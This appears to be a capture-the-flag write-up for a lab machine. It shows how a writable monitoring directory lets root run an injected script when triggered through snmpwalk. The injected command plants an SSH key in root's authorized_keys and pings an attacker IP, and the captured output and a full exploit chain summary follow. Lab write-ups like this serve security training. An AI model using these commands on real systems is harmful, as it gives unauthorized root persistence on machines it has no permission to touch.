So, if we can writable some script into `/usr/local/monitoring` and trigger root to exeucte `/usr/bin/monitor`, then we can have a command injection.

**Exploit**:

1. writable exploit code into monitoring directory

```console
echo 'mkdir -p /root/.ssh;echo "ssh-rsa AAAAB...DtCkbPE= qwe@kali">/root/.ssh/authorized_keys;echo "[+] finish inserting";ping -c 1 10.10.14.14'> /usr/local/monitoring/check_qwe.sh
```

2. trigger monitor command by using snmpwalk; below shows inserting pub key is finished, while ping command is failed

```console
└─╼$ snmpwalk -On -v2c -c public 10.10.10.241 1.3.6.1.4.1.8072
.1.3.6.1.4.1.8072.1.3.2.1.0 = INTEGER: 2
.1.3.6.1.4.1.8072.1.3.2.2.1.2.6.109.101.109.111.114.121 = STRING: "/usr/bin/free"
.1.3.6.1.4.1.8072.1.3.2.2.1.2.10.109.111.110.105.116.111.114.105.110.103 = STRING: "/usr/bin/monitor"
...
.1.3.6.1.4.1.8072.1.3.2.4.1.2.10.109.111.110.105.116.111.114.105.110.103.1 = STRING: "Database status"
.1.3.6.1.4.1.8072.1.3.2.4.1.2.10.109.111.110.105.116.111.114.105.110.103.2 = STRING: "OK - Connection to database successful."
.1.3.6.1.4.1.8072.1.3.2.4.1.2.10.109.111.110.105.116.111.114.105.110.103.3 = STRING: "[+] finish inserting"
.1.3.6.1.4.1.8072.1.3.2.4.1.2.10.109.111.110.105.116.111.114.105.110.103.4 = STRING: "ping: cap_set_proc: Permission denied"
.1.3.6.1.4.1.8072.1.3.2.4.1.2.10.109.111.110.105.116.111.114.105.110.103.5 = STRING: "System release info"
.1.3.6.1.4.1.8072.1.3.2.4.1.2.10.109.111.110.105.116.111.114.105.110.103.6 = STRING: "CentOS Linux release 8.3.2011"
.1.3.6.1.4.1.8072.1.3.2.4.1.2.10.109.111.110.105.116.111.114.105.110.103.7 = STRING: "SELinux Settings"
...
```

3. connect using ssh: `ssh root@$IP`

## Exploit Chain

port scan -> 80 http, 9090 ssl login page (tcp), snmp(udp) -> snmp num: web path, usernames, domain names -> SeedDMS login page with michelle default -> upgrade note and changelog file to check version -> 5.1.10 RCE ok -> nginx shell -> db enum: password -> 9090 login with michelle and password -> michelle shell -> enum file ACLs -> command triggers scripts whose dir is writable and executable for michella -> writable exploit code and trigger it using snmpwalk
